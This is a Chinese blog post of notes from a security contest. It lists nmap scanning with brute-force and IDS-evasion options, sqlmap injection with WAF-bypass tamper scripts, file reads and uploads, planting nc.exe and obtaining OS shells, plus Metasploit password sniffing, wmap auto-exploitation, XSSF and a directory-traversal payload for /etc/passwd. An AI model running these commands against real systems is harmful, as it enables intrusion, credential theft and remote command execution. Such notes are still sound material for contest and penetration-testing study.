 ```yaml
---
title: 蓝盾比赛总结
time: 2016.05.28 12:47:00
layout: post
tags:
- 蓝盾
- 工具
- 安全相关
excerpt: 蓝盾比赛的一些准备与总结

---
```


# 1. Nmap
首先使用nmap探测内网服务器
	
	主机发现
	nmap -sn -T4 ip/24(断网环境)
	nmap -Pn ip/24(有网环境)
	万能开关 -A  
	返回详细内容 -vv
	完整全面的扫描
	nmap –T4 –A –v targethost
	脚本使用
	nmap --script=brute 192.168.137.* 提供暴力破解的方式  可对数据库，smb，snmp等进行简单密码的暴力猜解
	nmap --script=default 192.168.137.* 或者 nmap -sC 192.168.137.* 默认的脚本扫描，主要是搜集各种应用服务的信息，收集到后，可再针对具体服务进行攻击
	IDS规避
	nmap -v -F -Pn -D192.168.1.100,192.168.1.102,ME -e eth0 -g 3355 192.168.1.1 其中，-F表示快速扫描100个端口；-Pn表示不进行Ping扫描；-D表示使用IP诱骗方式掩盖自己真实IP（其中ME表示自己IP）；-e eth0表示使用eth0网卡发送该数据包；-g 3355表示自己的源端口使用3355；192.168.1.1是被扫描的目标IP地址。
	 nmap --script=vuln 192.168.137.*   检查是否存在常见漏洞
	 假设检查ms08067
	 nmap -P0 --script=smb-check-vulns 10.10.10.130
	
	
----
# 2.sqlmap
备注：(注入的时候最好把设定-v 3 -l 3)

1. 检索当前数据库和当前用户

		sqlmap -u target.com --cookie="1231" -b --current-db -current-user
	
	-b:获取DBMS banner 还有--os用于探测数据库服务器系统 --is-dba 判断当前用户是否为管理 --users 列出所有管理用户 --passwords列出并破解数据库用户的hash --privileges 列出数据库管理员权限
2. 挖取数据库 --dbs（－D） 挖取表 --tables（－T） 挖取列 --columns（—C） 挖掘详细内容 --dump
3. 读文件 -r test.txt 这里加载HTTP请求 加载文本为-m
4. 载入过滤插件  --tamper（这个一般用于绕过waf） 这个具体参照：[http://drops.wooyun.org/tools/4760](http://drops.wooyun.org/tools/4760) 加载多个可用逗号隔开即可
		
		python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_int.php?id=1" --tamper tamper/between.py,tamper/randomcase.py,tamper/space2comment.py -v 3
5. 伪静态注入  有些web服务器进行了url rewrite或者网站是伪静态的，无法直接提供测试参数，这样子可以使用*来代替要测试的参数。
6. 请求延迟  在注入过程中请求太频繁的话可能会被防火墙拦截，这时候--delay参数就起作用了。可以设定两次HTTP请求间的延时。有的web程序会在多次错误访问后屏蔽所有请求，这样就导致之后所有的测试无法进行，绕过这个策略可以使用--safe-url，每隔一段时间去访问一个正常的页面。
7. post注入  有两种方法来进行post注入，一种是使用--data参数，将post的key和value用类似GET方式来提交。二是使用-r参数，sqlmap读取用户抓到的POST请求包，来进行POST注入检测。
	
		python sqlmap.py -u "http://www.target.com/vuln.php" --data="id=1" -f --banner --dbs --users
8. 拆分字符  --param-del

		python sqlmap.py -u "http://www.target.com/vuln.php" --data="query=foobar;id=1" --param-del=";" -f --banner --dbs --users

9. 避免过多的错误请求被屏蔽
	1. --safe-url：提供一个安全不错误的连接，每隔一段时间都会去访问一下。
	2. --safe-freq：提供一个安全不错误的连接，每次测试请求之后都会再访问一边安全连接。

10. 有时候需要在一些环境的前面或者后面加一些字符，保证payload正常运行，就需要参数--prefix,--suffix
	例如，代码中是这样调用数据库的：
		
		$query = "SELECT * FROM users WHERE id=(’" . $_GET[’id’] . "’) LIMIT 0, 1"; 
	这时你就需要--prefix和--suffix参数了：
		python sqlmap.py -u "http://192.168.136.131/sqlmap/mysql/get_str_brackets.php?id=1" -p id --prefix "’)" --suffix "AND (’abc’=’abc"
	这样执行的SQL语句变成：
	
		$query = "SELECT * FROM users WHERE id=(’1’) <PAYLOAD> AND (’abc’=’abc’) LIMIT 0, 1"; 
11. 有时候--tables 无法获取到数据库表时，可用使用--common-tables爆破表名 同理 --common-columns 你懂的
12. 如果当前用户有权读取文件，可用使用--file-read
	
		
		python sqlmap.py -u "http://192.168.136.129/sqlmap/mssql/iis/get_str2.asp?name=luther" \--file-read "C:/example.exe" -v 1

	同理 文件上传到服务器操作 --file-write,--file-dest

		python sqlmap.py -u "http://192.168.136.129/sqlmap/mysql/get_int.aspx?id=1" --file-write \"/software/nc.exe.packed" --file-dest "C:/WINDOWS/Temp/nc.exe" -v 1

13. 运行操作系统命令 --os-cmd,--os-shell
	
	
		python sqlmap.py -u "http://192.168.136.131/sqlmap/pgsql/get_int.php?id=1" \--os-cmd id -v 1
		--os-shell 得到不同的四种shell（ASP、ASPX、PHP、JSP）
		--os-pwn 该指令可与metasploit交互
		--os-cmd  for windows

		
14. cookie注入

		sqlmap.py -u 'target web' --cookie='2313' 即可


 -----
#  3.metasploit
## psnuffle 口令嗅探
建议在比赛中一直开启

使用过程
	
	use auxiliary/sniffer/psnuffle
	run
即可

## 辅助模块之wmap

	load wmap
	help
	wmap_sites -a http://202.112.50.74
	wmap_sites -l
	wmap_targets -t http://202.112.50.74
	wmap_run -t 开启后，wmap会调用配置好的辅助模块对目标进行扫描
	wmap_run -e 查看扫描后结果
	vulns 自动依据扫描后工作进行攻击
## XSSF模块
	
	load xssf  加载该模块
	xssf_urls  查看xssf攻击配置文件
	xssf_victims
	
	
	
jobs 可以进一步查看进行攻击的模块

-----
# 其它
1. 目录穿越漏洞   ../.../.../../../etc/passwd%00
2. sql相关  Mysql information_schema  table_schema version() database() 